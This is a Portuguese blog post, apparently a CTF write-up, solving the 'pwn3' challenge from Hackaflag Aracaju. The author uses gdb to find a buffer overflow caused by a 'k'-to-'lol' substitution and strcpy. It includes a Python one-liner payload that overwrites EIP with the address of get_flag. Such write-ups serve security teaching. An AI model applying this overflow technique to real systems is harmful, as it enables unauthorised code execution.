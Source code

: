```yaml
---
layout: post
title: Pwn0
categories:
  - Hackaflag aracaju
published: true
---
```

### Link para pwn3:[https://s3-us-west-1.amazonaws.com/contattafiles/ratf/dRi0rQk6fm53a8r/pwn3](https://s3-us-west-1.amazonaws.com/contattafiles/ratf/dRi0rQk6fm53a8r/pwn3)
Ao se executar o pwn pela primeira vez e tentar fazer um overflow enviando um monte de A's para a pergunta "Qual seu nome?", percebi que ele limitava a quantidade de caracteres que eram impressos.

Uma proteção contra overflow? Agora o negócio tava mais complicado que os outros dois pwn.

Mas por acaso, antes de analisar o pwn no gdb ou objdump, percebi que ele substituia qualquer "k" (apenas minusculo) por "lol" e com k's suficientes os lol estouravam o espaço reservado para eles e passariam por cima de tudo, causando um buffer overflow. (Acho que o conhecimento que isso passa é de que sempre se deve testar qualquer tipo de INPUT para verificar falhas em um programa)

Abrindo o pwn no gdb e mandando um info functions, achei 4 funções 
que eram interessantes:
{% highlight js %}

0x08048f13  get_flag
0x08048f21  replace
0x080491af  vuln
0x0804932d  main

{% endhighlight %}
Coloquei breakpoints em todas (b replace, b vuln, b main, b get_flag) e coloquei o pwn pra rodar (run).

Primeiro breakpoint para em main, função principal do programa (pouca novidade aqui). Uso o comando disas main e tento analisar o código (tô longe de saber muito de asm), entendi que main, basicamente só serve pra chamar a função vuln.

{% highlight js %}
   0x08049333 <+6>:     call   0x80491af <vuln>
{% endhighlight %}

Com o comando c, mando pwn continuar. E, como imaginei, ele para em vuln. Tento analisar o código da função usando disas vuln, mas a coisa fica um pouco complicada por causa do meu pouco conhecimento de asm. 
Mesmo assim, compreendo algumas linhas e conclui que vuln era responsável por imprimir a mensagem perguntando do nome, copiar o que a função replace retornar, para o buffer vulnerável usando a perigosa função strcpy, e então imprimir na tela o resultado.
Só lembrando que isso tudo eram suposições (boa parte baseadas nas chamadas para funções que vi no código, tipo printf, fgets, call para replace, strcpy...)., já que meu conhecimento em asm (AINDA) não é suficiente.

Como o código de vuln já mostrava, quando mandei o GDB continuar, surgiu a mensagem pedindo para digitar o nome. Depois de digitar qualquer coisa e teclar enter, o breakpoint em replace faz efeito.

Analisar a função replace foi mais complicado. A conclusão que tirei, por achismo, é que ela fica responsável por varrer a string em busca de K's e, caso encontre, substitua por lol. E provavelmente retorne a string modificada.

Instruindo o gdb a continuar, vi que o programa finaliza exibindo a mensagem só isso.

Então executei o programa novamente no gdb (usando o comando run), mas dessa vez meti um monte de k's no lugar do meu nome. Aí, depois de mandar o pwn continuar após o breakpoint em replace, o gdb me mostra:
{% highlight js %}

Program received signal SIGSEGV, Segmentation fault.
0x6f6c6c6f  in ?? ()

{% endhighlight %}
6f6c6c6f = ollo em hex, o que significa que temos meios lol's em eip, o que significa que podemos sobreescreve-lo com coisa mais útil. Tipo o endereço de get_flag.

Eu aposto que deve haver um jeito mais prático, mas no calor do ctf, fui manualmente testando quantos k's eram necessários para chegar em EIP. De k em k, descobri que 22 k's corrompem eip com um ol, meio lol. Então usei 21 k's mais um caractere qualquer (usei o l no dia) e 4 A's.
{% highlight js %}

Oi, lollollollollollollollollollollollollollollollollollollollollollAAAA


Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
{% endhighlight %}

Achei onde pôr o endereço de get_flag ;D

Para testar a solução, usei o python para criar um arquivo que serviria de entrada para pwn: 
{% highlight js %}
python -c 'print "k"*21 + "l" + "\x13\x8f\x04\x08"' > input
{% endhighlight %}

Obs: eu já tinha anotado o endereço de get_flag (0x08048f13) depois de analisar as funções no gdb, imaginei que seria útil. E, como sabemos que a regra usada nesse caso para manipulação de armazenamento na memória é Little Endian, invertemos o endereço: 08 04 8f 13 vira 13 8f 04 08.

Para ver se tudo funcionava, no gdb com pwn3, coloquei um breakpoint apenas em get_flag. Então rodei o programa e redirecionei a entrada para o arquivo input, assim, ele iria ler o conteúdo do arquivo e usar como resposta para a pergunta "Qual seu nome?".
{% highlight js %}

(gdb) run < input
Starting program: /home/update/pwn3 < input
Qual seu nome? Oi, lollollollollollollollollollollollollollollollollollollollolloll▒


Breakpoint 1, 0x08048f13 in get_flag ()
{% endhighlight %}

Missão cumprida. EIP apontava para get_flag.
{% highlight js %}

(gdb) c
Continuando.
cat: flag.txt: Arquivo ou diretório não encontrado

Program received signal SIGSEGV, Segmentation fault.
0x08048f1f in get_flag ()
{% endhighlight %}

Agora bastava explorar o pwn que estava rodando em algum ip dentro da rede do hack a flag e ver o contéudo do arquivo flag.txt ;)

EOF